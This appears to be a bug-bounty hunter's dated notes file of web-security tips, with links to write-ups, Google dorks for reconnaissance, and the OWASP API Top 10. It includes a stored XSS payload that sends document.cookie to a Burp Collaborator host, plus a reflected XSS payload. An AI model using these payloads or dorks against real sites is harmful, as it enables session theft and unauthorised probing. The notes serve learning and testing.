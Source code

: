 
# 📅 19-Apr-2021
## Stored XSS
```html
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
```
***Source: https://infosecwriteups.com/pwning-your-assignments-stored-xss-via-graphql-endpoint-6dd36c8a19d5***

## Password change misconfiguration
- https://0x2m.medium.com/misconfiguration-in-change-password-functionality-leads-to-account-takeover-1314b5507abf

## Reflected XSS to RCE
```js
"><img src=x onerror=alert(whoami)>
```

## Google Dork to find Broken Link Hijacking:

`site:*.target.* link:twitter`

Then if you find a broken link, just create an account and claim it.

# 📅 23-Apr-2021
## Sometimes .DS_Store disclose some information
Dork used
```text
intext:.DS_Store & intitle:index -github
intitle:"index of" intext:".ds_store"
inurl:.DS_Store intitle:index of
inurl:.DS_Store intitle:index.of
```

### Dorks for help
```text
site:http://target.com -www
site:http://target.com intitle:”test” -support
site:http://target.com ext:php | ext:html
site:http://subdomain.target.com
site:http://target.com inurl:auth
site:http://target.com inurl:dev
```

# 📅 26-Apr-2021
## OWASP API Security Top 10
1. API1:2019 — Broken object level authorization
2. API2:2019 — Broken authentication
3. API3:2019 — Excessive data exposure
4. API4:2019 — Lack of resources and rate limiting
5. API5:2019 — Broken function level authorization
6. API6:2019 — Mass assignment
7. API7:2019 — Security misconfiguration
8. API8:2019 — Injection
9. API9:2019 — Improper assets management
10. API10:2019 — Insufficient logging and monitoring
